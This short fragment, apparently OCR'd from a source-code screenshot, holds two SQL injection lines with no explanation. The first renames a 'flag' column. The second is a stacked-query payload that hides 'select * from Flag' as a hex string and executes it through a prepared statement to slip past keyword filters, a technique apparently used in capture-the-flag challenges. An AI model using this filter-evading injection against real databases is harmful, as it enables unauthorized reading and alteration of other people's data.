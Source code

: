 alter table words change flag data varchar(100);#





1;SeT@a=313b73656c656374202a2066726f6d20466c61673b;prepare execsql from @a;execute execsql;#




























